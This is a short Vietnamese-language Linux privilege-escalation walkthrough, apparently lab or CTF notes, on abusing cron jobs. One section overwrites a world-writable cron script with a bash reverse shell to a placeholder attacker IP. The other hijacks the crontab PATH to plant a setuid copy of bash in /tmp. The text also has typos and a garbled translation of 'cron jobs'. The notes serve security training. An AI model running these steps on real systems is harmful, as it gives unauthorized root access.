 # File Perms
- Cron Jobs (Công việc lương thấp) là những prog hay scripts mà usr có thể lên lịch để chạy ở thời điểm nhất định. Cron Table files (crontabs) chuyền config tới cron jobs. Crontabs toàn hệ thống được đặt ở ```/etc/crontab```

- Xem nội dung của crontab này:

      cat /etc/crontab
- Nên có 2 cron jobs được lên lịch để chạy mỗi phút. Một chạy ```overưrite.sh```, còn lại chạy ```/usr/local/bin/compress.sh```
- Locate địa chỉ của overwrite.sh:

      locate overwrite.sh
- Kiểm tra xem nó có thể dudợc chỉnh sửa bởi tất cả không:

      ls -l /usr/local/bin/overwrite.sh
- Thay nội dung của của overwrite.sh thành như dưới đấy

      #!/bin/bash
      bash -i >& /dev/tcp/<hacker_ip>/<hacker_port> 0>&1
- Setup một netcat listener trên máy hacker trùng với ```<hacker_port``` và đợi nó hoạt động. Root shell sẽ xuất hiện sau đó

# PATH Environment Variable
- Check crontab:

      cat /etc/crontab
- Để ý PATH bắt đầu bằng /home/user (home dir của user). Tạo một file ```overwrite.sh``` ở home dir với nội dung

      #!/bin/bash
      cp /bin/bash /tmp/rootbash
      chmod +xs /tmp/rootbash
- Đảm bảo rằng file có thể thực thi
 
      cmmod +x /home/user/overwrite.sh
- Đợi cron job chạy. Chạy ```/tmp/rootbash``` command với ```-p``` để lấy root shell

      /tmp/rootbash -p
- Nhớ xoá /tmp/rootbash sau khi hoàn thành

      rm /tmp/rootbash
      exit
